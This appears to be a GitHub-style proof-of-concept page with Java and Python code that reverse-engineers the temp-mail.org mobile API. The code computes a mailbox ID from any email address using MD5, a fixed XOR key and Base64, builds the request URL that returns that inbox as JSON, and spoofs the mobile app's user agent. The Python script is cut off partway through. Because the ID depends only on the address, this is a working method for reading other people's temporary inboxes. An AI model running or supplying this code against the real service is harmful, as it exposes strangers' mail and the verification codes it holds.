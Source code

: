 
## Proof of concept

### JAVA 

```java
import java.util.*; import java.lang.*; import java.io.*; import java.security.MessageDigest; import java.security.NoSuchAlgorithmException;

public class Main
{
    public static void main (String[] args) throws java.lang.Exception
    {
        String mail = "vkgwbld593@royalnt.net";
        String s = make_payload(mail);
        String payload = s.substring(0,76) + "%0A" + s.substring(76, s.length()) + "%0A";
        String result = mail + " --> " + "https://mob1.temp-mail.org/request/mail/id/" + payload + "/format/json";
        System.out.println(result);
    }

    public static String md5(String str) {
        try {
            byte[] digest = MessageDigest.getInstance("MD5").digest(str.getBytes());
            StringBuilder sb = new StringBuilder();
            for (byte b2 : digest) { sb.append(Integer.toHexString((b2 & 255) | 256).substring(1, 3));}
            return sb.toString();
        } catch (NoSuchAlgorithmException e2) {
            e2.printStackTrace(); return "";
        }
    }

    public static String make_payload(String mail) {
       String mail_md5 = md5(mail); int i = 1573252;
	 StringBuilder sb = new StringBuilder();
       for (int i2 = 0; i2 < mail_md5.length(); i2++) {
           sb.append((char) (mail_md5.charAt(i2) ^ i));
       }
       return Base64.getEncoder().encodeToString(sb.toString().getBytes());
    }
}
```

### PYTHON 

```python
import base64, hashlib, json, requests, random, string
base_url = 'https://mob1.temp-mail.org'
headers = {
        "authority": "mob1.temp-mail.org",
        "accept": "application/json",
        "accept-encoding": "gzip",
        "user-agent": "okhttp/3.14.7"
}
domains = json.loads(requests.get(base_url + '/request/domains/format/json', headers=headers).content)
email = ''.join(random.choice(string.ascii_lowercase) for i in range(7)) \
    	+ ''.join(random.choice(string.digits) for i in range(3)) \
    	+ random.choice(domains)
input(email + '\n')  #  Send an email and wait a couple of seconds...

md5 = hashlib.md5(email.encode()).hexdigest()
xor = ''.join([chr(((ord(char) ^ 1573252) % (2**16))) for char in md5])
```